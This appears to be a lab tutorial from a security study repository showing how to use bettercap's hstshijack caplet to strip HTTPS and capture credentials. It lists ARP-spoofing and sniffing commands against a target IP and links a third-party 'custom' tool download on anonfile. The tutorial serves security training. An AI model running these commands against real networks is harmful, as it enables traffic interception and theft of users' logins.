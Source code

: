 
## Bypassing HTTPS using hstshijack
This module injects HTML & JS files with a payload that spoofs your targeted hostnames and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

**BetterCAP comes with hstshijack by default.**

Official hstshijack repo:
https://github.com/bettercap/caplets/blob/master/hstshijack/README.md

My custom hstshijack:
https://anonfile.com/xcz11cP4n8/hstshijack_zip

**Note:** This method in default payloads doesn't work on a few popular websites like Twitter or Facebook, since the modern browsers have a security measure hardcoded on for those websites. But it works in a majority websites that is using HTTPS.

1. Create a caplet called **spoof.cap**

2. Add those parameters (remember to put the target IP address on arp.spoof.targets):
```sh
net.probe on
set arp.spoof.fullduplex true 
set arp.spoof.targets <TARGET IP ADDRESS > 
arp.spoof on
set net.sniff.local true
net.sniff on
```

3. In the same folder that you created the caplet, start the **BetterCAP** using the spoof.cap **Caplet** that you created:<br><br>
`bettercap -iface eth0 -caplet spoof.cap`

4. On BetterCAP, launch the hstshijack:<br><br>
`hstshijack/hstshijack`<br><br>
![hstshijack](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/02af023f2abc73cbda37c644eaf1128f222a612a/hstshijack.png)

5. Switchback to the Windows and open the browser.

6. On this lab we will test the popular **StackOverflow**, type the URL: stackoverflow.com and hit enter.<br><br>
![hstshijack2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/4126125b5858854a68d97552a12041f2e7ad5122/hstshijack-3.png)
As you can see the HTTPS is sucessfully bypassed and the entire website is loaded.

7. Try to login in with fake account to test it.

8. After you submited the fake credentials, switch back to BetterCAP on Kali Linux and try to find the **method POST** sniffed from BetterCAP, you will find the credentials typed, as shown below: <br><br>
![hstshijack3](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/02af023f2abc73cbda37c644eaf1128f222a612a/hstshijack-2.png)